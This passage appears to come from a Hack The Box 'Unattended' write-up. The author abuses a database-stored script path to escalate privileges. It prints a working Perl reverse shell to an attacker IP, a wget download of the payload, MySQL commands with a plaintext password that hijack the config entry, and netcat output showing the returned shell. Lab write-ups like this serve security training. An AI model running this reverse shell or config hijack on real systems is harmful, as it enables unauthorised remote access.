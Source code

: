 I thought about that `checkrelease` parameter in the `config` table I saw earlier. It currently contains `/home/guly/checkbase.pl;/home/guly/checkplugins.pl;` so I guess that this may be a script running at specific interval. I have access to the database so I can change this value.

I use the standard perl reverse shell payload, then drop it into `/var/lib/php/sessions` since it's the only directory in the main executable partition I have write access to:

```perl
use Socket;$i="10.10.14.23";$p=80;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};
```

```
wget http://10.10.14.23:443/shell.pl -O /var/lib/php/sessions/shell.pl
--2019-04-14 22:25:39--  http://10.10.14.23:443/shell.pl
Connecting to 10.10.14.23:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 209 [text/x-perl]
Saving to: '/var/lib/php/sessions/shell.pl'
```

Then I update the database configuration to point to the new script:

```
mysql -u nestedflanders -p1036913cf7d38d4ea4f79b050f171e9fbf3f5e -e "update config set option_value = '/usr/bin/perl /var/lib/php/sessions/shell.pl;' where id='86'" neddy
mysql -u nestedflanders -p1036913cf7d38d4ea4f79b050f171e9fbf3f5e -e "select * from config where id='86'" neddy
id	option_name	option_value
86	checkrelease	/usr/bin/perl /var/lib/php/sessions/shell.pl;
```

After a minute or two I get a connection back:

```
root@ragingunicorn:~/htb/unattended# nc -lvnp 80
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::80
Ncat: Listening on 0.0.0.0:80
Ncat: Connection from 10.10.10.126.
Ncat: Connection from 10.10.10.126:47400.
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=1000(guly) gid=1000(guly) groups=1000(guly),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),47(grub),108(netdev)

$ cat user.txt
9b413f...
```

IPv6 is configured on this server so I will run an nmap scan against the IPv6 address to see if I can find any other open port.

```
$ ip a
2: ens33: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UNKNOWN group default qlen 1000
    link/ether 00:50:56:b2:7b:c2 brd ff:ff:ff:ff:ff:ff
    inet 10.10.10.126/24 brd 10.10.10.255 scope global ens33
       valid_lft forever preferred_lft forever
    inet6 dead:beef::250:56ff:feb2:7bc2/64 scope global mngtmpaddr dynamic
       valid_lft 86215sec preferred_lft 14215sec
    inet6 fe80::250:56ff:feb2:7bc2/64 scope link
       valid_lft forever preferred_lft forever
```
